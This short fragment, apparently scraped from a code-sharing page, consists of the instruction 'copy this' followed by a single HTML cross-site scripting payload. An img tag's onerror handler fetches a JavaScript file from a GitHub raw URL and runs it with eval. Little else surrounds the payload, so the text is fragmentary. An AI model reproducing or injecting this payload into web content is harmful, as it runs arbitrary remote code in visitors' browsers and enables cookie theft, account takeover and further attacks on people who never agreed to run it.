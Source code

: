 copy this
---<img src=# onerror='fetch("https://raw.githubusercontent.com/gco-12345/vsmonky/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
